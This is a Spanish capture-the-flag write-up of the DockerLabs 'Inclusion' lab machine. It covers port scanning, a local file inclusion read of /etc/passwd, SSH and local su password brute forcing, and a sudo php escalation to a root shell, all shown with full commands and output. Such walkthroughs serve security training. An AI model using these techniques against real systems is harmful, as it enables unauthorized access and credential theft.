


# 🖥️ Writeup - Inclusion 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip inclusion.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh inclusion.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-11-30 19:44 CET
Nmap scan report for 172.17.0.2
Host is up (0.000025s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 03:cf:72:54:de:54:ae:cd:2a:16:58:6b:8a:f5:52:dc (ECDSA)
|_  256 13:bb:c2:12:f5:97:30:a1:49:c7:f9:d0:ba:d0:5e:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.94 seconds
```

Identificamos los puertos `22` y `80` abiertos.

Accedemos al servicio web del puerto `80` y nos encontramos con la página por defecto de `Apache`.

# GOBUSTER

Realizamos `fuzzing` de directorios para intentar localizar directorios o archivos ocultos.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info:
```
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60 
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              php,txt,bak,sh,html,zip
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 10701]
/shop                 (Status: 301) [Size: 307] [--> http://172.17.0.2/shop/]
Progress: 1038852 / 1543899 (67.29%)
```

Descubrimos el directorio `/shop`. Entramos y vemos la siguiente página:



En la parte inferior de la pantalla observamos un mensaje de error:

```
"Error de Sistema: ($_GET['archivo']"); 
```

Este warning, típico de `PHP`, nos indica un fallo al intentar incluir un archivo externo.

En este punto, sospechamos que estamos ante una vulnerabilidad `LFI`.

Buscamos el archivo `.php` que está devolviendo el error.

```bash
gobuster dir -u http://172.17.0.2/shop -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info:
```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/shop
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              sh,html,zip,php,txt,bak
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 1112]
Progress: 20757 / 1543906 (1.34%)
```

Este es el archivo que probablemente sea vulnerable a LFI, index.php.

# LFI

Procedemos a `fuzzear` para encontrar el `parámetro` que el script utiliza para llamar al archivo.

```bash
wfuzz -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://172.17.0.2/shop/index.php?FUZZ=../../../../../etc/passwd --hc 404 --hl 44
```

Info:
```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://172.17.0.2/shop/index.php?FUZZ=../../../../../etc/passwd
Total requests: 220559

=====================================================================
ID           Response   Lines    Word       Chars       Payload        
=====================================================================

000014842:   200        68 L     117 W      2253 Ch     "archivo"
```

Identificamos el parámetro `archivo`.

Comprobamos la vulnerabilidad intentando visualizar `/etc/passwd` mediante este parámetro.

```
http://172.17.0.2/shop/index.php?archivo=../../../../etc/passwd
```



Tenemos éxito y logramos leer el contenido, donde identificamos dos usuarios del sistema: `manchi` y `seller`.

Guardamos estos usuarios en un archivo `users.txt`.

# HYDRA

Intentamos obtener credenciales para alguno de los usuarios mediante un ataque de `fuerza bruta` con `Hydra`.

```bash
hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 50
```

Info:
```
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-11-30 20:38:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 50 tasks per 1 server, overall 50 tasks, 14344399 login tries (l:1/p:14344399), ~286888 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: manchi   password: lovely
```

Conseguimos con éxito la contraseña para el usuario `manchi` : `lovely`.

Accedemos por `SSH`.

```bash
ssh manchi@172.17.0.2
```

# ESCALADA DE PRIVILEGIOS

Tras una enumeración exhaustiva del sistema (permisos sudo, SUID, capabilities, variables de entorno, kernel e incluso pasando LinPEAS), localizamos la pista clave en el archivo `/etc/ssh/sshd_config`.

En la última línea de este archivo de configuración encontramos lo siguiente:

```
AllowUsers manchi
```

Esto indica que `manchi`, el usuario con el que operamos actualmente, es el único que tiene permitido el acceso por `SSH`. Por lo cual, en el ataque de fuerza bruta que realizamos anteriormente, aunque el diccionario `rockyou.txt` contuviera la contraseña correcta del otro usuario (`seller`), Hydra no la detectó como válida porque el servicio SSH rechaza la conexión de raíz.

Este hallazgo nos lleva a intentar un ataque de `fuerza bruta` contra el usuario `seller`, pero esta vez de manera local desde la sesión de `manchi`.

Para ello utilizamos el repositorio de `GitHub` Maalfer/Sudo_BruteForce, concretamente el script de bash `Linux-Su-Force.sh`.
Una vez descargado en nuestra máquina atacante, debemos transferirlo junto con el diccionario a la máquina víctima. Dado que en la máquina víctima no disponemos de `wget` ni `curl`, utilizamos `scp` para la transferencia.

```bash
scp Linux-su-Force.sh manchi@172.17.0.2:/tmp/Linux-su-Force.sh
```

Info:
```
manchi@172.17.0.2's password: 
Linux-Su-Force.sh                                        100% 1600   697.5KB/s   00:00
```

```bash
scp /usr/share/wordlists/rockyou.txt manchi@172.17.0.2:/tmp/rockyou.txt
```

Info:
```
manchi@172.17.0.2's password: 
rockyou.txt                                              100%  133MB 326.5MB/s   00:00
```

A continuación, navegamos al directorio `/tmp`, damos permisos de ejecución al script y lo lanzamos.

```
total 137780
drwxrwxrwt 1 root   root        4096 Nov 30 19:35 .
drwxr-xr-x 1 root   root        4096 Nov 30 18:43 ..
-rwxr-xr-x 1 manchi manchi    190659 Nov 30 19:31 Linux-su-force.sh
-rwxr-xr-x 1 manchi manchi    954437 Nov 30 19:25 linpeas.sh
-rw-r--r-- 1 manchi manchi 139921507 Nov 30 19:49 rockyou.txt
```

```bash
./Linux-su-force.sh seller rockyou.txt
```

Info:
```
Contraseña encontrada para el usuario seller: qwerty
```

Encontramos la contraseña para el usuario `seller` : `qwerty`.

Nos autenticamos como `seller` con estas credenciales.

```bash
su seller
```

Una vez dentro, comprobamos sus permisos de `sudo`.

```bash
sudo -l
```

Info:
```
Matching Defaults entries for seller on a894d81c1614:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User seller may run the following commands on a894d81c1614:
    (ALL) NOPASSWD: /usr/bin/php
```

Vemos que podemos ejecutar el binario `php` con privilegios de `root`. Aprovechamos esto para escalar privilegios ejecutando lo siguiente:

```bash
sudo php -r "system('/bin/bash');"
```

Info:
```
root@a894d81c1614:/tmp# whoami
root
root@a894d81c1614:/tmp#
```

Ya somos root!